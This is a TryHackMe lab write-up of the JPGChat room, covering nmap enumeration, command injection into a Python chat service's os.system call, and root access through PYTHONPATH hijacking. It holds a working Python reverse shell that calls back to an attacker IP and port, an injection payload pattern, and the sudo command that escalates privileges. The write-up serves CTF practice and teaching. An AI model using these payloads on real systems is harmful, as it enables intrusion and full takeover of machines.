







# JPGChat TryHackMe Writeup


## __First Stage : Enumeration__


So starting with nmap. 

```
# Nmap 7.91 scan initiated Mon Mar  1 15:02:16 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.250.123
Nmap scan report for 10.10.250.123
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-03-01 15:02:17 IST for 585s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
3000/tcp open  tcpwrapped syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  1 15:12:03 2021 -- 1 IP address (1 host up) scanned in 586.24 seconds
```

Hence we can see the open ports are:

* 22
* 3000

So if we visit port 3000.





## __Second Stage : Initial Foothold__


Hence I searched github for **JPGChat**.





In that repo I found **jpchat.py** .

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

In the report_form method we can see that there is "os.system" which takes executes a bash command for saving the name and report . In that **%s** is where we will inject our command for reverse shell.


So inorder to prevent our command being echoed into the text file , we can use 


> '  payload ; #

the payload is your reverse shell command.








## __Third Stage : User to Root__


So when I tried **sudo -l** I got this.





Hence If we open test_module.py we can see the following.

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
Hence we need to create a python file called compare.py which will contain our python reverse shell , and then set the python path for the program and we get shell.


So create a file called **compare.py** in your home directory and paste this python code.

```python
import socket,subprocess,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<your-ip>",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash") 
```

And then run this command

> sudo PYTHONPATH=/home/wes/ /usr/bin/python3 /opt/development/test_module.py


And we get a shell.







